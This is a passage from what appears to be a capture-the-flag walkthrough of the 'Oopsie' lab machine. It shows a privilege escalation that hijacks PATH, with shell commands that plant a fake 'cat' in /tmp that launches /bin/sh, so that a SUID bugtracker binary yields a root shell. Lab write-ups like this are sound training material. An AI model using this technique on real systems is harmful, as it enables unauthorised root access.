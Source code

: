 
We see that it calls the “**cat”** binary using this relative path
instead of the absolute path.

Let have a look to current \$PATH
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image73.png"></div> 


By creating a malicious cat and by modifying the path to include the
current working directory, we should be able to abuse this
misconfiguration, and escalate our privileges to root. Let's add the “**tmp**” directory to PATH
``` shell 
robert@oopsie:/$  export PATH=/tmp:$PATH
robert@oopsie:/$  export PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/usr/games:/usr/local/games
```


Then we move into the tmp folder:
``` shell 
robert@oopsie:/$  cd /tmp/
```

Let’ create ***a malicious cat***,
``` shell 
robert@oopsie:/tmp$  echo '/bin/sh' > cat
```

Let's make it executable.
``` shell 
robert@oopsie:/tmp$  chmod +x cat
```

Now, after making our “malicious” cat executable if we search for the
cat executable with the “which” command we will see:
``` shell 
robert@oopsie:/tmp$  which  –a  cat
/tmp/cat
/bin/cat

```



PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for executable files (i.e., ready-to-run programs) in response to commands issued by a user.  The first “cat” command to be executed will be "**our malicious**" “/tmp/cat”, so by running the bugtracker binary we will have access to a root shell..

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image76.png"></div>
